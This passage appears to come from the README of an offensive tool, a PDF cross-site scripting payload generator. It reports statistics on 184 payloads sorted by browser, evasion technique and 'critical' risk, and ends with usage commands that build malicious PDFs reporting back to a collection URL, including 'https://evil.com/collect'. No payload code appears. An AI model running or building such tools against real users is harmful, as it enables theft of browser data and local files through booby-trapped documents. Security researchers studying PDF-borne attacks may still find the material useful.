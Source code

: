 ### Enhanced Results Analyzer (results_analyzer.py v3.0)
- 📊 **Browser Performance Ranking**: Comparative analysis across all browsers
- 📊 **Category Distribution Analysis**: Visual payload distribution charts
- 📊 **Technique Effectiveness Evaluation**: Usage patterns and effectiveness metrics
- 📊 **Risk Level Assessment**: Risk distribution and security impact analysis
- 📊 **Improvement Recommendations**: AI-driven suggestions for payload enhancement
- 📊 **Historical Trend Analysis**: Multi-report comparison and trending
- 📊 **Export Capabilities**: Multiple output formats for reporting

## 📋 Testing Results Summary

### Overall Statistics (184 Total Payloads)
- ✅ **Validity Rate**: 96.7% (178/184 payloads pass syntax validation)
- 🏆 **Quality Rate**: 46.7% (86/184 payloads rated as high quality)
- 🎯 **Browser Coverage**: 5 browsers with comprehensive targeting

### Browser Performance Ranking
1. 🥇 **Firefox**: 96.4% valid, 64.3% high quality (Best overall performance)
2. 🥈 **Safari**: 90.9% valid, 54.5% high quality (Strong WebKit targeting)
3. 🥉 **Chrome**: 98.9% valid, 49.4% high quality (Highest payload count)
4. #4 **Edge**: 100.0% valid, 45.5% high quality (Perfect validity)
5. #5 **Adobe**: 92.0% valid, 12.0% high quality (Needs enhancement)

### Category Distribution
- **DOM Access**: 33.2% (61 payloads) - Largest category
- **Advanced Evasion**: 32.6% (60 payloads) - Core modern techniques
- **File System Access**: 7.6% (14 payloads) - Local system targeting
- **WebKit Specific**: 7.6% (14 payloads) - Safari optimization
- **Other Categories**: 19.0% (35 payloads) - Specialized techniques

### Risk Level Distribution
- 🔴 **Critical**: 10.3% (19 payloads) - Maximum impact exploits
- 🟠 **High**: 55.4% (102 payloads) - Significant security risks
- 🟡 **Medium**: 26.1% (48 payloads) - Moderate impact
- 🟢 **Low**: 8.2% (15 payloads) - Limited impact

## 🔧 Usage Guide

### Basic PDF Generation
```bash
# Generate Chrome-specific PDFs with enhanced payloads
python3 pdf_xss_generator.py -b chrome -u https://webhook.site/your-id

# Create single file with all Firefox payloads
python3 pdf_xss_generator.py -b firefox --single-file -u http://test.com

# Generate PDFs for all browsers
python3 pdf_xss_generator.py -b all -u https://evil.com/collect
```
